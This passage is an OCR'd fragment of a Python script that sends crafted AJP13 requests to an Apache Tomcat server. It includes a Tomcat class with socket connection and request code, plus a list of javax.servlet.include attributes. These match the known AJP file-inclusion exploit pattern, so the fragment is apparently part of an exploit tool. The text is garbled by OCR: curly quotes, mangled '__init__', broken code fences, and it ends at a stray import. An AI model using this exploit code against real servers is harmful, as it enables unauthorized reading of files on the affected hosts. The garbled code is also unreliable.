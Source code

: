 ```
‘Accept-Encoding’: ‘gzip, deflate, sdch’,

‘Accept-Language’: ‘en-US,en;q=0.5’,

‘Upgrade-Insecure-Requests’: ‘1’,

‘Cache-Control’: ‘max-age=0’

}

fr.is_ssl = False

fr.attributes = []

return fr

class Tomcat(object):

def **init**(self, target_host, target_port):

self.target_host = target_host

self.target_port = target_port

```
 self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
	self.socket.connect((target_host, target_port))
	self.stream = self.socket.makefile("rb", bufsize=0)

def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):
	self.req_uri = req_uri
	self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
	print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))
	if user is not None and password is not None:
		self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')
	for h in headers:
		self.forward_request.request_headers[h] = headers[h]
	for a in attributes:
		self.forward_request.attributes.append(a)
	responses = self.forward_request.send_and_receive(self.socket, self.stream)
	if len(responses) == 0:
		return None, None
	snd_hdrs_res = responses[0]
	data_res = responses[1:-1]
	if len(data_res) == 0:
		print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)
	return snd_hdrs_res, data_res 
```

‘’’

javax.servlet.include.request_uri

javax.servlet.include.path_info

javax.servlet.include.servlet_path

‘’’

import argparse
```